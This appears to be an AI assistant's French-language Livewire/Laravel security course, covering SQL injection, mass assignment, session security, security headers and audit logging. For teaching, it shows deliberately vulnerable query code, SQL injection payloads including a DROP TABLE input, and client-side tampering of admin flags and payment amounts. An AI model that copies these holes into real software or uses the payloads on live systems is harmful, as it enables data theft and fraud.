**Scénario attaque SQL Injection :**

```php
<?php

// ❌ CODE VULNÉRABLE (RAW QUERY)

public function search(string $query): void
{
    // User input directement dans query SQL
    $results = DB::select("SELECT * FROM users WHERE name = '$query'");
}

// Si $query = "John' OR '1'='1"
// SQL exécuté : SELECT * FROM users WHERE name = 'John' OR '1'='1'
// '1'='1' TOUJOURS vrai → Retourne TOUS users ✗

// Si $query = "John'; DROP TABLE users; --"
// SQL exécuté : SELECT * FROM users WHERE name = 'John'; DROP TABLE users; --'
// Table users SUPPRIMÉE ✗✗✗
```

### 6.2 Protection Eloquent ORM

**Eloquent utilise TOUJOURS prepared statements (paramétré) :**

```php
<?php

// ✅ CODE SAFE (ELOQUENT ORM)

use App\Models\User;

public function search(string $query): void
{
    // Eloquent paramètre automatiquement
    $results = User::where('name', $query)->get();
    
    // SQL réel : SELECT * FROM users WHERE name = ?
    // Binding : ['John\' OR \'1\'=\'1']
    // Input échappé automatiquement ✓
}

// Même avec input malveillant :
// $query = "John' OR '1'='1"
// Recherche littéralement string "John' OR '1'='1"
// Aucune injection possible ✓
```

### 6.3 Query Builder Paramétré

```php
<?php

use Illuminate\Support\Facades\DB;

// ✅ SAFE : Query builder avec bindings
public function search(string $name, string $email): void
{
    $results = DB::table('users')
        ->where('name', $name)          // Paramétré automatiquement
        ->where('email', $email)        // Paramétré automatiquement
        ->get();
}

// ✅ SAFE : whereRaw avec bindings explicites
public function complexSearch(string $term): void
{
    $results = DB::table('posts')
        ->whereRaw('MATCH(title, content) AGAINST(? IN BOOLEAN MODE)', [$term])
        ->get();
}

// ❌ DANGER : whereRaw SANS bindings
public function vulnerableSearch(string $term): void
{
    // NE JAMAIS FAIRE ÇA
    $results = DB::table('posts')
        ->whereRaw("title LIKE '%{$term}%'")  // VULNÉRABLE ✗
        ->get();
}
```

### 6.4 Raw Queries Sécurisées

**Si VRAIMENT besoin raw SQL, utiliser bindings :**

```php
<?php

use Illuminate\Support\Facades\DB;

// ✅ CORRECT : Raw query avec bindings
public function customQuery(int $userId, string $status): void
{
    $results = DB::select(
        'SELECT * FROM orders WHERE user_id = ? AND status = ? ORDER BY created_at DESC',
        [$userId, $status]
    );
}

// ✅ CORRECT : Named bindings
public function namedBindings(int $userId, string $status): void
{
    $results = DB::select(
        'SELECT * FROM orders WHERE user_id = :userId AND status = :status',
        ['userId' => $userId, 'status' => $status]
    );
}

// ❌ JAMAIS FAIRE : Concaténation directe
public function vulnerable(int $userId, string $status): void
{
    // VULNÉRABLE ✗✗✗
    $results = DB::select(
        "SELECT * FROM orders WHERE user_id = {$userId} AND status = '{$status}'"
    );
}
```

### 6.5 Validation Input SQL

**Valider strictement AVANT query :**

```php
<?php

namespace App\Livewire;

use Livewire\Component;
use App\Models\Post;

class PostSearch extends Component
{
    public string $search = '';
    public string $orderBy = 'created_at';
    public string $orderDirection = 'desc';

    public function mount(): void
    {
        // Valider orderBy (whitelist colonnes autorisées)
        $this->validateOrderBy();
    }

    public function updatedOrderBy(): void
    {
        $this->validateOrderBy();
    }

    public function updatedOrderDirection(): void
    {
        $this->validateOrderDirection();
    }

    protected function validateOrderBy(): void
    {
        $allowed = ['created_at', 'title', 'views_count'];
        
        if (!in_array($this->orderBy, $allowed)) {
            $this->orderBy = 'created_at'; // Fallback safe
        }
    }

    protected function validateOrderDirection(): void
    {
        $allowed = ['asc', 'desc'];
        
        if (!in_array($this->orderDirection, $allowed)) {
            $this->orderDirection = 'desc'; // Fallback safe
        }
    }

    public function render()
    {
        return view('livewire.post-search', [
            'posts' => Post::where('title', 'like', "%{$this->search}%")
                ->orderBy($this->orderBy, $this->orderDirection) // Safe : validé
                ->paginate(20)
        ]);
    }
}
```

---

## Leçon 7 : Mass Assignment Protection

### 7.1 Mass Assignment Attack Explained

**Mass Assignment = Modifier propriétés non prévues via requête**

**Scénario attaque :**

```php
<?php

// Modèle User SANS protection
class User extends Model
{
    // PAS de $fillable ou $guarded défini ✗
}

// Controller Livewire
public function updateProfile(): void
{
    auth()->user()->update($this->all());
    // $this->all() contient TOUTES propriétés publiques
}
```

```html
<!-- Formulaire normal user -->
<input wire:model="name" name="name">
<input wire:model="email" name="email">

<!-- Attaquant modifie HTML et ajoute : -->
<input wire:model="is_admin" name="is_admin" value="1">
<input wire:model="role" name="role" value="admin">
```

```php
<?php

// Requête envoyée contient :
// ['name' => 'John', 'email' => 'john@example.com', 'is_admin' => 1, 'role' => 'admin']

// Sans protection, update() modifie is_admin et role
// User devient admin ✗✗✗
```

### 7.2 Protection $fillable

**Whitelist : Déclarer colonnes modifiables :**

```php
<?php

namespace App\Models;

use Illuminate\Database\Eloquent\Model;

class User extends Model
{
    /**
     * Colonnes modifiables (WHITELIST)
     */
    protected $fillable = [
        'name',
        'email',
        'password',
        'bio',
        'avatar',
    ];

    // is_admin, role NON dans $fillable
    // Tentative modifier → Ignoré silencieusement ✓
}
```

**Utilisation safe :**

```php
<?php

namespace App\Livewire;

use Livewire\Component;

class ProfileEditor extends Component
{
    public string $name = '';
    public string $email = '';
    public string $bio = '';

    public function mount(): void
    {
        $user = auth()->user();
        
        $this->name = $user->name;
        $this->email = $user->email;
        $this->bio = $user->bio;
    }

    public function save(): void
    {
        $this->validate([
            'name' => 'required|min:3',
            'email' => 'required|email',
            'bio' => 'nullable|max:500',
        ]);

        // Update SEULEMENT colonnes fillable
        auth()->user()->update([
            'name' => $this->name,
            'email' => $this->email,
            'bio' => $this->bio,
        ]);

        // Même si attaquant ajoute 'is_admin' => 1
        // Ignoré car pas dans $fillable ✓

        session()->flash('message', 'Profil mis à jour !');
    }

    public function render()
    {
        return view('livewire.profile-editor');
    }
}
```

### 7.3 Protection $guarded

**Blacklist : Déclarer colonnes NON modifiables :**

```php
<?php

namespace App\Models;

use Illuminate\Database\Eloquent\Model;

class Post extends Model
{
    /**
     * Colonnes NON modifiables (BLACKLIST)
     */
    protected $guarded = [
        'id',
        'user_id',
        'views_count',
        'is_featured',
        'published_at',
    ];

    // Toutes AUTRES colonnes modifiables
}
```

**Quand utiliser $fillable vs $guarded ?**

| Situation | Utiliser |
|-----------|----------|
| **Peu de colonnes modifiables** | `$fillable` (whitelist sûre) |
| **Beaucoup colonnes modifiables** | `$guarded` (blacklist exceptions) |
| **Sécurité maximale** | `$fillable` (explicite) |

### 7.4 Force Fill (Admin Override)

**Modifier colonnes guardées (admin uniquement) :**

```php
<?php

namespace App\Livewire;

use Livewire\Component;
use App\Models\User;

class AdminUserEditor extends Component
{
    public User $user;
    public string $role = '';
    public bool $isAdmin = false;

    public function mount(int $userId): void
    {
        $this->authorize('admin-access');

        $this->user = User::findOrFail($userId);
        $this->role = $this->user->role;
        $this->isAdmin = $this->user->is_admin;
    }

    public function save(): void
    {
        $this->authorize('admin-access');

        // forceFill() bypass $fillable/$guarded
        $this->user->forceFill([
            'role' => $this->role,
            'is_admin' => $this->isAdmin,
        ])->save();

        session()->flash('message', 'User mis à jour (admin) !');
    }

    public function render()
    {
        return view('livewire.admin-user-editor');
    }
}
```

### 7.5 Propriétés Livewire Publiques

**ATTENTION : Propriétés publiques Livewire modifiables client-side**

```php
<?php

namespace App\Livewire;

use Livewire\Component;

class PaymentForm extends Component
{
    public float $amount = 100;      // ❌ PUBLIC : User peut modifier
    public string $currency = 'EUR'; // ❌ PUBLIC : User peut modifier

    // Attaquant modifie DevTools :
    // Livewire.find('component-id').set('amount', 0.01)
    // Paie 0.01€ au lieu 100€ ✗

    public function pay(): void
    {
        // $this->amount peut avoir été modifié ✗
        
        // Traiter paiement...
    }
}
```

**SOLUTION : Propriétés sensibles PROTECTED/PRIVATE :**

```php
<?php

namespace App\Livewire;

use Livewire\Component;

class PaymentForm extends Component
{
    protected float $amount = 100;      // ✓ PROTECTED : User ne peut PAS modifier
    protected string $currency = 'EUR'; // ✓ PROTECTED : User ne peut PAS modifier

    public string $cardNumber = '';     // OK public (input user)
    public string $cardExpiry = '';     // OK public (input user)

    public function getAmountProperty(): float
    {
        // Exposer montant via computed property (read-only)
        return $this->amount;
    }

    public function pay(): void
    {
        // $this->amount GARANTI non modifié ✓
        
        $this->validate([
            'cardNumber' => 'required|digits:16',
            'cardExpiry' => 'required',
        ]);

        // Traiter paiement avec montant sécurisé...
    }

    public function render()
    {
        return view('livewire.payment-form');
    }
}
```

---

## Leçon 8 : Session Security et Cookies

### 8.1 Session Hijacking Prevention

**Session hijacking = Voler session ID user → usurper identité**

**Protections Laravel automatiques :**

```php
<?php

// config/session.php

return [
    // Driver sécurisé (database, redis)
    'driver' => env('SESSION_DRIVER', 'database'),

    // Lifetime court (2 heures)
    'lifetime' => 120,

    // Expire on close browser
    'expire_on_close' => false,

    // Encrypt session data
    'encrypt' => true,

    // Cookie settings
    'cookie' => env('SESSION_COOKIE', 'laravel_session'),
    'path' => '/',
    'domain' => env('SESSION_DOMAIN', null),
    'secure' => env('SESSION_SECURE_COOKIE', true),  // HTTPS only
    'http_only' => true,                             // Pas accessible JavaScript
    'same_site' => 'lax',                            // CSRF protection
];
```

### 8.2 Secure Cookie Configuration

```php
<?php

// config/session.php

return [
    // Production settings
    'secure' => env('SESSION_SECURE_COOKIE', true),  // ✓ HTTPS obligatoire
    'http_only' => true,                             // ✓ Bloquer JavaScript access
    'same_site' => 'strict',                         // ✓ Bloquer CSRF cross-site

    // SameSite options :
    // - 'strict' : Cookie envoyé SEULEMENT requêtes same-site (max sécurité)
    // - 'lax' : Cookie envoyé top-level navigation (liens externes OK)
    // - 'none' : Cookie envoyé toutes requêtes (REQUIRES secure=true)
];
```

### 8.3 Session Regeneration

**Regénérer session ID après actions sensibles :**

```php
<?php

namespace App\Livewire;

use Livewire\Component;

class Login extends Component
{
    public string $email = '';
    public string $password = '';

    public function login(): void
    {
        $this->validate([
            'email' => 'required|email',
            'password' => 'required',
        ]);

        if (!auth()->attempt(['email' => $this->email, 'password' => $this->password])) {
            session()->flash('error', 'Identifiants incorrects.');
            return;
        }

        // ✓ REGÉNÉRER session ID après login (prevent session fixation)
        request()->session()->regenerate();

        return redirect()->route('dashboard');
    }

    public function render()
    {
        return view('livewire.login');
    }
}
```

**Logout complet :**

```php
<?php

namespace App\Livewire;

use Livewire\Component;

class Logout extends Component
{
    public function logout(): void
    {
        // Logout user
        auth()->logout();

        // Invalider session
        request()->session()->invalidate();

        // Regénérer token CSRF
        request()->session()->regenerateToken();

        return redirect()->route('home');
    }

    public function render()
    {
        return view('livewire.logout');
    }
}
```

### 8.4 Session Timeout Handling

**Détecter session expirée côté client :**

```javascript
// resources/js/app.js

// Vérifier session toutes les 5 minutes
setInterval(() => {
    fetch('/api/session-check')
        .then(response => {
            if (response.status === 401) {
                // Session expirée
                alert('Votre session a expiré. Reconnexion requise.');
                window.location.href = '/login';
            }
        });
}, 300000); // 5 minutes
```

**Endpoint vérification session :**

```php
<?php

// routes/api.php

Route::middleware('auth:sanctum')->get('/session-check', function () {
    return response()->json(['authenticated' => true]);
});
```

### 8.5 Remember Me Token Security

**Remember me token stocké séparément, hashé :**

```php
<?php

namespace App\Livewire;

use Livewire\Component;

class Login extends Component
{
    public string $email = '';
    public string $password = '';
    public bool $remember = false;

    public function login(): void
    {
        $this->validate([
            'email' => 'required|email',
            'password' => 'required',
        ]);

        // Remember me token (60 jours par défaut)
        if (!auth()->attempt(
            ['email' => $this->email, 'password' => $this->password],
            $this->remember
        )) {
            session()->flash('error', 'Identifiants incorrects.');
            return;
        }

        // Si $remember = true :
        // - Cookie "remember_web" créé (60 jours)
        // - Token hashé stocké DB (users.remember_token)

        request()->session()->regenerate();

        return redirect()->route('dashboard');
    }

    public function render()
    {
        return view('livewire.login');
    }
}
```

---

## Leçon 9 : Security Best Practices Production

### 9.1 Security Checklist Production

**Checklist sécurité complète avant déploiement :**

```markdown
## Environment Configuration
- [ ] APP_ENV=production
- [ ] APP_DEBUG=false
- [ ] APP_KEY généré et sécurisé
- [ ] DB credentials sécurisées (pas en clair)
- [ ] SESSION_SECURE_COOKIE=true (HTTPS)
- [ ] SANCTUM_STATEFUL_DOMAINS configuré

## HTTPS/SSL
- [ ] Certificat SSL valide installé
- [ ] Redirection HTTP → HTTPS forcée
- [ ] HSTS header configuré
- [ ] Mixed content warnings résolus

## Headers Sécurité
- [ ] Content-Security-Policy configuré
- [ ] X-Frame-Options: DENY (clickjacking)
- [ ] X-Content-Type-Options: nosniff
- [ ] Referrer-Policy: strict-origin-when-cross-origin
- [ ] Permissions-Policy configuré

## Authentication
- [ ] Password hashing (bcrypt/argon2)
- [ ] Two-factor authentication (optionnel)
- [ ] Rate limiting login (5 tentatives/min)
- [ ] Session timeout configuré (2h max)
- [ ] Logout invalide session complètement

## Authorization
- [ ] Gates & Policies définis
- [ ] Middleware auth sur routes protégées
- [ ] Vérification permissions actions sensibles
- [ ] Least privilege principle appliqué

## Input Validation
- [ ] Validation stricte TOUTES entrées
- [ ] Sanitization inputs before processing
- [ ] File upload validation (type, size, content)
- [ ] XSS prevention (Blade escaping)
- [ ] SQL injection prevention (ORM paramétré)

## Data Protection
- [ ] Mass assignment protection ($fillable/$guarded)
- [ ] Sensitive data encrypted (DB encryption)
- [ ] Passwords JAMAIS stockés plain text
- [ ] PII (Personal Identifiable Info) minimisée
- [ ] GDPR compliance si applicable

## Error Handling
- [ ] Error reporting désactivé production
- [ ] Custom error pages (403, 404, 500)
- [ ] Logs sécurisés (pas d'infos sensibles)
- [ ] Exception handling complet

## Logging & Monitoring
- [ ] Audit trail actions critiques
- [ ] Failed login attempts logged
- [ ] Rate limit violations logged
- [ ] Security events alertes
- [ ] Log rotation configurée

## Dependencies
- [ ] composer update régulier
- [ ] npm update régulier
- [ ] Vulnerability scanning (composer audit)
- [ ] Deprecated packages remplacés

## Backup & Recovery
- [ ] Backups automatiques DB quotidiens
- [ ] Backups testés (restore OK)
- [ ] Plan disaster recovery documenté
```

### 9.2 Security Headers Middleware

```php
<?php

namespace App\Http\Middleware;

use Closure;
use Illuminate\Http\Request;

class SecurityHeaders
{
    public function handle(Request $request, Closure $next)
    {
        $response = $next($request);

        // Prevent clickjacking
        $response->headers->set('X-Frame-Options', 'DENY');

        // Prevent MIME sniffing
        $response->headers->set('X-Content-Type-Options', 'nosniff');

        // XSS Protection (legacy browsers)
        $response->headers->set('X-XSS-Protection', '1; mode=block');

        // Referrer Policy
        $response->headers->set('Referrer-Policy', 'strict-origin-when-cross-origin');

        // HSTS (Force HTTPS 1 year)
        if ($request->secure()) {
            $response->headers->set(
                'Strict-Transport-Security',
                'max-age=31536000; includeSubDomains; preload'
            );
        }

        // Permissions Policy
        $response->headers->set(
            'Permissions-Policy',
            'geolocation=(), microphone=(), camera=()'
        );

        // Content Security Policy
        $csp = [
            "default-src 'self'",
            "script-src 'self' 'unsafe-inline' 'unsafe-eval' https://cdn.jsdelivr.net",
            "style-src 'self' 'unsafe-inline' https://fonts.googleapis.com",
            "font-src 'self' https://fonts.gstatic.com",
            "img-src 'self' data: https:",
            "connect-src 'self'",
            "frame-ancestors 'none'",
            "base-uri 'self'",
            "form-action 'self'",
        ];

        $response->headers->set(
            'Content-Security-Policy',
            implode('; ', $csp)
        );

        return $response;
    }
}
```

**Enregistrer middleware :**

```php
<?php

// app/Http/Kernel.php

protected $middlewareGroups = [
    'web' => [
        // ...
        \App\Http\Middleware\SecurityHeaders::class,
    ],
];
```

### 9.3 Audit Logging Service

```php
<?php

namespace App\Services;

use Illuminate\Support\Facades\Log;

class SecurityAudit
{
    /**
     * Log action sécurité sensible
     */
    public static function log(string $action, array $context = []): void
    {
        Log::channel('security')->info($action, array_merge($context, [
            'user_id' => auth()->id(),
            'ip' => request()->ip(),
            'user_agent' => request()->userAgent(),
            'timestamp' => now()->toIso8601String(),
        ]));
    }

    /**
     * Log tentative accès non autorisé
     */
    public static function logUnauthorizedAccess(string $resource, string $action): void
    {
        self::log('unauthorized_access_attempt', [
            'resource' => $resource,
            'action' => $action,
            'severity' => 'warning',
        ]);
    }

    /**
     * Log failed login
     */
    public static function logFailedLogin(string $email): void
    {
        self::log('failed_login', [
            'email' => $email,
            'severity' => 'warning',
        ]);
    }

    /**
     * Log successful login
     */
    public static function logSuccessfulLogin(): void
    {
        self::log('successful_login', [
            'severity' => 'info',
        ]);
    }

    /**
     * Log data modification
     */
    public static function logDataModification(string $model, int $id, array $changes): void
    {
        self::log('data_modification', [
            'model' => $model,
            'model_id' => $id,
            'changes' => $changes,
            'severity' => 'info',
        ]);
    }
}
```

**Configuration logging security :**

```php
<?php

// config/logging.php

'channels' => [
    'security' => [
        'driver' => 'daily',
        'path' => storage_path('logs/security.log'),
        'level' => 'info',
        'days' => 90, // Garder 90 jours
    ],
],
```

**Utilisation dans Livewire :**

```php
<?php

namespace App\Livewire;

use Livewire\Component;
use App\Services\SecurityAudit;
use App\Models\User;

class AdminUserDelete extends Component
{
    public User $user;

    public function delete(): void
    {
        // Vérifier autorisation
        if (!Gate::allows('admin-access')) {
            SecurityAudit::logUnauthorizedAccess('User', 'delete');
            abort(403);
        }

        // Log avant suppression
        SecurityAudit::log('user_deletion', [
            'deleted_user_id' => $this->user->id,
            'deleted_user_email' => $this->user->email,
        ]);

        $this->user->delete();

        session()->flash('message', 'User supprimé.');
    }

    public function render()
    {
        return view('livewire.admin-user-delete');
    }
}
```

### 9.4 Vulnerability Scanning

**Scanner dépendances vulnérabilités :**

```bash
# Composer audit (PHP)
composer audit

# NPM audit (JavaScript)
npm audit

# Fix vulnérabilités automatiquement
npm audit fix
```

**Intégrer dans CI/CD :**

```yaml
# .github/workflows/security.yml

name: Security Scan

on: [push, pull_request]

jobs:
  security:
    runs-on: ubuntu-latest

    steps:
      - uses: actions/checkout@v3

      - name: Setup PHP
        uses: shivammathur/setup-php@v2
        with:
          php-version: '8.2'

      - name: Install Composer dependencies
        run: composer install

      - name: Composer Audit
        run: composer audit

      - name: Setup Node
        uses: actions/setup-node@v3
        with:
          node-version: '18'

      - name: Install NPM dependencies
        run: npm ci

      - name: NPM Audit
        run: npm audit --audit-level=high
```

---

## Projet 1 : Secure Authentication System

**Objectif :** Système authentification sécurisé complet

**Fonctionnalités sécurité :**

- CSRF protection automatique
- XSS prevention (Blade escaping)
- Rate limiting login (5 tentatives/min)
- Password hashing bcrypt
- Session regeneration après login
- Remember me token sécurisé
- Two-factor authentication (TOTP)
- Account lockout après 10 échecs
- Audit logging failed/successful logins
- Security headers middleware
- Email verification
- Password reset sécurisé (token expiration)

**Code disponible repository.**

---

## Projet 2 : Secure Admin Panel

**Objectif :** Panel administration multi-niveaux

**Fonctionnalités sécurité :**

- Gates & Policies granulaires
- Middleware role-based access
- Authorization chaque action
- Mass assignment protection strict
- Input validation/sanitization
- SQL injection prevention (Eloquent)
- Audit trail toutes actions admin
- Rate limiting operations sensibles
- CSRF tokens vérifiés
- XSS prevention outputs
- File upload validation stricte
- Session timeout court (30 min)

**Code disponible repository.**

---

## Projet 3 : Security Audit Dashboard

**Objectif :** Dashboard monitoring sécurité temps réel

**Fonctionnalités :**

- Failed login attempts graph
- Rate limit violations tracking
- Unauthorized access attempts list
- Active sessions monitoring
- Security events timeline
- IP blacklist management
- Vulnerability scanner results
- Compliance checklist status
- Audit logs search/filter
- Security alerts notifications
- Export audit logs CSV
- Real-time security metrics

**Code disponible repository.**

---

## Checklist Module XII

- [ ] CSRF tokens vérifiés automatiquement
- [ ] XSS prevention (Blade `{{ }}`, HTML Purifier)
- [ ] Content Security Policy configuré
- [ ] Gates & Policies définis modèles
- [ ] Authorization middleware routes
- [ ] Rate limiting actions sensibles
- [ ] Input validation stricte TOUTES entrées
- [ ] Sanitization inputs avant traitement
- [ ] SQL injection prevention (Eloquent ORM)
- [ ] Mass assignment protection ($fillable)
- [ ] Propriétés sensibles protected/private
- [ ] Session secure cookies (httpOnly, secure)
- [ ] Session regeneration après login
- [ ] Security headers middleware actif
- [ ] Audit logging actions critiques
- [ ] Vulnerability scanning CI/CD
- [ ] HTTPS forcé production
- [ ] Error reporting désactivé production

**Concepts clés maîtrisés :**

✅ CSRF protection complète
✅ XSS prevention multi-couches
✅ Authorization granulaire
✅ Rate limiting intelligent
✅ Input validation/sanitization
✅ SQL injection prevention
✅ Mass assignment protection
✅ Session security avancée
✅ Security headers production
✅ Audit logging complet
✅ Best practices sécurité

---

**Module XII terminé ! 🎉**

**Formation Livewire COMPLÈTE - 12 modules terminés !** 🏆

**Tu as maintenant une formation Livewire EXHAUSTIVE et SÉCURISÉE de niveau production professionnelle !** 

La formation est maintenant complète avec tous les aspects essentiels couverts. Si tu veux, je peux créer :
- Un **index final complet** de tous les modules
- Des **annexes** (cheat sheets, patterns, troubleshooting)
- Ou continuer avec d'autres modules bonus si tu as des besoins spécifiques !

Dis-moi ce que tu préfères ! 🚀